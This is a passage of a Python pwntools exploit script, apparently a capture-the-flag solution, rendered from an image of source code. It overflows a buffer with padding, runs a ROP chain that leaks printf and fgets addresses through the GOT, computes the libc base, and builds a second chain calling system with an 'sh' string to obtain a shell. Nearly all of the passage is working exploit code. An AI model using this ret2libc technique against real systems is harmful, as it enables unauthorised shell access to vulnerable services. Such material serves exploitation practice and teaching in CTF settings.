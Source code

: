 ```python
    exit()

# ######### exploit ########## #

log.info("launching exploit!")

# gdb.attach(vp, gdbscript)

# context.log_level = "debug"
# vp.sendline(cyclic(0x100, n=8))
off = 120
pad = "A" * off

# pl = pad + p64(0xdeadc0de)
# vp.sendline(pl)

# vp.interactive()

win_printer = 0x00401d96
# pop_rdi = 0x00401dc3
sh_string = 0x0040045f

# first rop chain

chain = ROP(velf)
chain.puts(velf.got['printf'])
chain.puts(velf.got['fgets'])
chain.call(win_printer)  # jump back for second rop chain

log.info("using rop chain:\n" + chain.dump())

pl = pad + str(chain)
if "\n" in pl:
    log.error("newline in payload:\n" + hexdump(pl))
vp.sendline(pl)

vp.recvuntil("gg!\n")

# leak printf and fgets

printf_leaked = vp.recvline()[:-1]
printf_leaked += "\x00" * (8 - len(printf_leaked))
log.info("printf leak:\n" + hexdump(printf_leaked))
printf_leaked = u64(printf_leaked)

fgets_leaked = vp.recvline()[:-1]
fgets_leaked += "\x00" * (8 - len(fgets_leaked))
log.info("fgets leak:\n" + hexdump(fgets_leaked))
fgets_leaked = u64(fgets_leaked)

# calculate libc base with leaked address

libc.address = fgets_leaked - libc.symbols['fgets']
# system = libc.symbols['system']

# second rop chain, just jump to system with "sh\x00" as arg

chain2 = ROP([velf, libc])
chain2.system(sh_string)

log.info("second rop chain:\n" + chain2.dump())

pl = pad + str(chain2)
```